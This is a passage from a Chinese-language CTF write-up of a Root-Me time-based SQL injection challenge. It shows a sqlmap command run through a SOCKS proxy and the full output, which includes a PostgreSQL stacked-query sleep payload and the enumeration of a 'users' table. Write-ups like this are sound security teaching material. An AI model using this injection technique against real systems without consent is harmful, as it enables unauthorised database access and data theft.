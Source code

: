![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B52%5D%20%5B45P%5D%20SQL%20injection%20-%20Time%20based/imgs/08.png)

------------


### 获得当前数据库模式中的所有表名

知道当前数据库模式后，就可以通过 sqlmap 的 `-D` 参数指定模式名，再通过 `--tables` 参数查询这个模式下的所有表名：

```shell
S:\04_work\BurpSuite>sqlmap.py -r C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req --proxy socks5://127.0.0.1:1080 --time-sec=5 -D public --tables
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.3.3.23#dev}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:02:26 /2019-03-17/

[10:02:26] [INFO] parsing HTTP request from 'C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req'
[10:02:26] [INFO] resuming back-end DBMS 'postgresql'
[10:02:26] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: member (GET)
    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: action=member&member=2;SELECT PG_SLEEP(5)--
---
[10:02:27] [INFO] the back-end DBMS is PostgreSQL
web application technology: Nginx
back-end DBMS: PostgreSQL
[10:02:27] [INFO] fetching tables for database: 'public'
[10:02:27] [INFO] fetching number of tables for database 'public'
[10:02:27] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[10:02:50] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
1
[10:02:57] [INFO] retrieved: users
Database: public
[1 table]
+-------+
| users |
+-------+

[10:03:59] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\challenge01.root-me.org'

[*] ending @ 10:03:59 /2019-03-17/
```
